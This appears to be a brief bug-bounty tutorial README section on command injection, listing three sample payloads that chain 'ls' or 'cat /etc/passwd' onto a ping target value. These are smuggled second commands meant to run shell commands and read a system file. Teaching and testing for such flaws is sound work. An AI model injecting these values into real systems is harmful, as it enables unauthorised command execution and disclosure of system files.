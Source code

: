 # bug-bounty-tutorial
bug bounty tutorial

## 7.command injection
```
ping -c4 127.0.0.1; ls
ping -c4 127.0.0.1 && ls

127.0.0.1; cat /etc/passwd
```
